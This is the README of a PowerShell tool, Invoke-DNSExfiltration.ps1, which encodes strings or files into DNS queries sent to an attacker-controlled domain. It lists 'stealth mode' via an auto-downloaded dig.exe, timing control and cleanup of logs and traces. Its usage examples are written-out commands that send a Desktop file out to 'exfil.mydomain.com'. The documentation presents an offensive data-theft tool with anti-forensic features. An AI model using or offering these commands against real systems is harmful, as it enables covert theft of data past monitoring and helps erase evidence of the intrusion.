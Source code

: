 # Invoke-DNSExfiltration.ps1

## Overview
**Invoke-DNSExfiltration.ps1** is a PowerShell script for Windows 10/11/Server that enables exfiltration of data by encoding it into DNS queries sent to a controlled domain. The script supports chunked transfer, stealth operation (using dig.exe if present), logging, cleanup of traces, timing control, and file-to-base64 exfiltration. It can also auto-download `dig.exe` if needed.

## Features
- **Data Exfiltration via DNS:** Encodes and sends data (string or file) to your domain via DNS queries.
- **Chunking:** Splits data into safe-sized chunks for DNS queries.
- **Stealth Mode:** Uses `dig.exe` (if available or auto-downloaded) for more stealthy DNS queries.
- **Logging:** Logs all queries sent.
- **Cleanup:** Full trace/log cleanup with switch.
- **Timing Control:** Adjustable sleep between queries (default 150ms).
- **Test Mode:** Previews DNS queries without sending.
- **File Exfiltration:** Accepts file path, reads and encodes content for DNS exfiltration.
- **Verbose Output:** Switch for detailed progress info.

## Parameters
| Name       | Type    | Default                | Description                                                            |
|------------|---------|------------------------|------------------------------------------------------------------------|
| Data       | string  | ""                     | The raw string to exfiltrate.                                          |
| FilePath   | string  | ""                     | Path to file to exfiltrate (Base64 encoded).                           |
| Domain     | string  | "exfil.example.com"    | Controlled domain for DNS queries.                                     |
| ChunkSize  | int     | 60                     | Size (bytes) for each chunk/query.                                     |
| SleepMs    | int     | 150                    | Milliseconds to sleep between queries.                                 |
| Verbose    | switch  | Off                    | Print detailed output.                                                 |
| UseDig     | switch  | Off                    | Use dig.exe if present (auto-downloads if missing).                    |
| Cleanup    | switch  | Off                    | Cleans up logs/traces and exits.                                       |
| TestMode   | switch  | Off                    | Only prints DNS queries, does not send them.                           |

## Usage
### Exfiltrate a string
```powershell
.\Invoke-DNSExfiltration.ps1 -Data "MySecretData" -Domain "exfil.mydomain.com"
```

### Exfiltrate a file
```powershell
.\Invoke-DNSExfiltration.ps1 -FilePath "C:\Users\user\Desktop\secret.txt" -Domain "exfil.mydomain.com"
```

### Use stealth mode (dig.exe)
```powershell
.\Invoke-DNSExfiltration.ps1 -Data "MySecretData" -UseDig
```

### Test mode (no DNS requests sent)
```powershell
.\Invoke-DNSExfiltration.ps1 -Data "MySecretData" -TestMode
```

### Cleanup traces/logs
```powershell
.\Invoke-DNSExfiltration.ps1 -Cleanup
```

## Output Example
```
[INFO] 2025-07-29 18:23:00 :: DNS method used: nslookup
[EXFIL] 2025-07-29 18:23:00 :: Number of queries to send: 4
[STEP] 2025-07-29 18:23:01 :: Query: dGVzdC5leGZpbC5leGFtcGxlLmNvbQ
...
[SUCCESS] 2025-07-29 18:23:04 :: DNS exfiltration completed.
```

## Help & Documentation
```powershell
Get-Help .\Invoke-DNSExfiltration.ps1
man .\Invoke-DNSExfiltration.ps1
```

## Troubleshooting
- If `dig.exe` is missing, the script will download it automatically to the script directory.
- Run with `-Verbose` for more output details.
- Use `-TestMode` for dry-run/preview of DNS queries.
- Use `-Cleanup` to erase logs/traces.

## License
MIT License

Copyright (c) 2025 Miiraak

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
